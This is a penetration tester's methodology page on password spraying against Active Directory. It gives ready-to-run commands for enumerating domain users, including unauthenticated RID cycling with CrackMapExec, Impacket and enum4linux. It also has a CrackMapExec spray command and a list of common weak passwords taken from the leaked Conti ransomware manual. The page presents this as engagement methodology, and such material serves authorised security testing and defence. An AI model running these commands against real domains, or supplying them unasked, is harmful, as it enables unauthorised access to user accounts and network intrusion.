 ```yaml
---
description: Methodology for performing password spraying attacks against active directory
---
```


# Password Spraying

This section contains some of my methodology and tips for performing password spraying attacks against Active Directory. Before spraying, I highly recommend that you first [enumerate the password policy](password-policy.md) on the domain so that you don't lock out accounts.&#x20;

If you are looking to password spray external services to gain initial access, refer to the [Fortress section](../../fortress/) of this GitBook.

### Get List of Users

```bash
# Get List of Users with CrackMapExec via RID Cycling (Unauthenticated)
crackmapexec smb $dc -u '' -p '' --users
crackmapexec smb $dc -u '' -p '' --groups

# Get List of Users with CrackMapExec via RID Cycling
crackmapexec smb $dc -u $username -p $password --users

# Get List of Users with Impacket
GetADUsers.py $domain/$username:$password -all -dc-ip $dc

# Get List of Users with Enum4linux
enum4linux $dc -u $username -p $password -U

# Sort Usernames Obtained from Enum4Linux
cat usernameenum.txt | grep "user" | awk {'print $1'} | cut -d '[' -f 2 | cut -d ']' -f 1 | sort -u -f > UsernameList.txt
```

### Spraying

```bash
# Spray with CrackMapExec
crackmapexec smb $ip -u $username_list -p Winter2022! --continue-on-success
```

### Password List

These passwords were referenced from the published [Conti manual](https://github.com/ForbiddenProgrammer/conti-pentester-guide-leak) and often work. This should be an unspoken rule, but ensure that your list is tailored for each engagement (year, month, etc).

```bash
Password1
Hello123
password
Welcome1
Acme@1
training
Password123
job12345
food1234
June2022
July2022
August22
August2022
Summer22
Summer2022
June2022!
July2022!
August22!
August2022!
Summer22!
Summer2022!
```

### References

{% embed url="https://wiki.porchetta.industries/smb-protocol/enumeration/enumerate-null-sessions" %}
